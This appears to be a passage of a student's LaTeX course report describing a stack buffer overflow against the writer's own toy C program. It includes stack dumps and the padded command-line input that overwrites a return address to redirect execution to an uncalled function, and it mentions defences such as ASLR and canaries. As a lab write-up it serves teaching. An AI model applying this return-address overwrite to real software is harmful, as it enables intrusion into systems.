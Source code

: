 \documentclass[11pt,a4paper]{report}
\begin{document}
	\subsection{The Attack}
	If a program has a buffer which can overflow, (part of) the running instance of it can be modified. In this case, the return address in \verb|do_work|'s stack frame can be changed to redirect to \verb|never_called|. This attack is of such concern that most modern (circa post-2005) operating systems and compilers have features built in to prevent them.\footnote{These include Address Space Layout Randomization (ASLR) and canaries, which were briefly mentioned in class. On my machine, the exploit discussed here did not require these features to be disabled.} In any case, upon running the code in Listing~\ref{lst:c}, I received the following output:
	\begin{lstlisting}[style=highlightable, frame=none, numbers=none, xleftmargin=0ex, xrightmargin=0ex]
[139]christian@christian-pc /tmp $ ./a.out 0123456789
Where are my functions?
do_work is at 0x40058d
never_called is at 0x4005d8
main is at 0x4005e8
What's on the stack?
0x7fffffec
0x7ffff7dd77f0
0x13
0x6
0x7ffff7dd46a0
0x7ffff7dd77f0
0x7fffffffe595
0x4007ec
0xffffffff
(nil)
0x7ffff7ffe1e8
0x7fffffffe1c0
0x400667
0x7fffffffe2a8
0x200000000
(nil)
0x7ffff7a50995
(nil)

0123456789
Now the stack looks like:
0x7ffff7ff7000
0x7ffff7dd77f0
0xffffffffffffffff
0x7ffff7dd77f0
0x7ffff7dd46a0
0x7ffff7dd77f0
0x7fffffffe595
0x3736353433323130
0xff003938
(nil)
0x7ffff7ffe1e8
0x7fffffffe1c0
0x400667
0x7fffffffe2a8
0x200000000
(nil)
0x7ffff7a50995
(nil)
	\end{lstlisting}
	I noted a return address of \verb|0x400667|, which I needed to change to \verb|0x4005d8|. Now, running
	\begin{lstlisting}[style=highlightable, frame=none, numbers=none, xleftmargin=0ex, xrightmargin=0ex]
./a.out 0123456789012345678901234567890123456789$(cat a.bin)
	\end{lstlisting}
	in the terminal (where \verb|a.bin| is a binary file containing \verb|0xd80540|) modified the address appropriately, however I did expect to require only 20 characters (the number of elements in the array) of padding before the address instead of 40. Moreover, changing the size of \verb|array| by only a small amount did not usually result in me requiring more or less padding. Presumably this had something to do with alignment of data structures in memory and/or the size of the assembler instructions, however I did not have time to investigate.
	
\end{document}
